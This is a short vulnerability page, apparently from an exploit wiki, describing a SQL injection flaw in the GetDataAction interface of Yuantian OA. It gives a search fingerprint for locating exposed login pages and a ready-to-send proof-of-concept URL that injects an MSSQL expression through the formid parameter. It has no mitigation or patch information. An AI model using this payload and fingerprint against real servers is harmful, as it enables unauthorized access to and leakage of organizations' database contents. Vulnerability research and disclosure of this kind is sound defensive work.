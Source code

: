 # Yuantian OA GetDataAction SQL injection vulnerability

## Vulnerability Description

The Yuantian OA GetDataAction interface has a SQL injection vulnerability. The attacker can obtain data from the server database through the vulnerability, causing information leakage.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yuantian OA</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="/vmain/login.jsp"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663996343936-60b88623-1eb8-4674-8c7d-a02711370fe7.png)

Verify POC

```sql
/ServiceAction/ServiceAction/com.velcro.base.GetDataAction?action=checkname&formid=-1%27%20OR%207063%20IN%20(SELECT%20(sys.fn_varbintohexstr(hashbytes(%27MD5%27,%271%27))))%20AND%20%27a%27=%27a
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1663996456021-f64802b1-a401-4357-a37e-7bb2a8e1d52e.png)